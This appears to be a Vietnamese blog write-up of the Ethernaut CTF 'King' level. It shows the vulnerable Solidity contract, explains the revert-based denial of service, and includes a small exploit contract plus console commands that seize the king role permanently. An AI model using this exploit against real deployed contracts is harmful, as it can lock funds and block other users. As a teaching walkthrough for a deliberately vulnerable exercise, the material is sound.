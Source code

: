 ```yaml
---
title: "[Ethernaut CTF] Level 9: King"
date: 2023-10-03 10:45:00 +0800
categories: [Blockchain, Ethereum]
tags: [Blockchain, Solidity, Ethereum, CTF]
published: true
image:
 path: https://ethernaut.zeppelin.solutions/imgs/BigLevel9.svg
---
```

# Level 9: King
##  ★★★☆☆
## Given contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```
## Phân tích
- Trong contract, với nhiệm vụ là chiếm quyền king vĩnh viễn, nhưng khi ta nhìn vào fallback function ở đây, khi có ai đó send transaction thì king sẽ thay đổi owner ``king=msg.sender`` và contract sẽ tranfer ngược lại value đó.
```solidity
  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
 
```
- Mấu chốt ở đây là ta cần làm hàm fallback function này luôn bị revert(),vì transaction sẽ bị chuyển ngược lại ``king`` nên ta cần viết một contract mà không có fallback function để receive-> thế là transaction luôn bị revert()


## Solution
**Target**: Chiếm quyền King vĩnh viễn và không cho ai chiếm quyền của mình nữa.
- Check prize hiện tại và thấy prize là 1000000000000000000 wei hay 1 ether
```javascript
await contract.prize().then(x => x.toString());
> 1000000000000000000

```

- Compile và deploy contract này trên remix, sau đó gọi hàm ``claimKingship()`` và send value 1 ether để đáp ứng ``require``:  

- Vì prize là 1 ether nên ta sẽ cần send 1 ether
```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.7.3;



contract ForeverKing {
    function claimKingship(address payable _to) public payable {
        (bool sent, ) = _to.call{value: msg.value}("");
        require(sent, "Failed to send value!");
    }
}
```

- Check lại owner và thử send transaction lại để check owner có bị thay đổi không -> nếu owner không thay đổi thì bạn đã hoàn thành challenge này =))
```javascript
await contract.owner()

```
**Submit** -> Done




